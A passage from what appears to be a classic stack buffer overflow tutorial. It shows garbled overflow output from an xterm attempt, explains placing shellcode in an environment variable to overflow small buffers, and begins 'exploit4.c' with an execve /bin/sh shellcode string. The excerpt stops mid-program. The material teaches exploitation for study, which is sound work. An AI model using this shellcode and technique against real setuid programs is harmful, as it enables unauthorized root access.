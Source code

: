 





	T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T��








	�T���T���T���T���T���T���T���T���T���T���T���T��
	Warning: some arguments in previous message were lost
	bash$
    
Eureka! Less than a dozen tries and we found the magic numbers. If xterm
where installed suid root this would now be a root shell.

---

>Small Buffer Overflows

There will be times when the buffer you are trying to overflow is so
small that either the shellcode wont fit into it, and it will overwrite the
return address with instructions instead of the address of our code, or the
number of NOPs you can pad the front of the string with is so small that the
chances of guessing their address is minuscule.  To obtain a shell from these
programs we will have to go about it another way.  This particular approach
only works when you have access to the program's environment variables.

What we will do is place our shellcode in an environment variable, and
then overflow the buffer with the address of this variable in memory.  This
method also increases your changes of the exploit working as you can make
the environment variable holding the shell code as large as you want.

The environment variables are stored in the top of the stack when the
program is started, any modification by setenv() are then allocated
elsewhere.  The stack at the beginning then looks like this:


      <strings><argv pointers>NULL<envp pointers>NULL<argc><argv><envp>

Our new program will take an extra variable, the size of the variable
containing the shellcode and NOPs. Our new exploit now looks like this:

*exploit4.c*

	#include <stdlib.h>

	#define DEFAULT_OFFSET                    0
	#define DEFAULT_BUFFER_SIZE             512
	#define DEFAULT_EGG_SIZE               2048
	#define NOP                            0x90

	char shellcode[] =
		"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
		"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
		"\x80\xe8\xdc\xff\xff\xff/bin/sh";
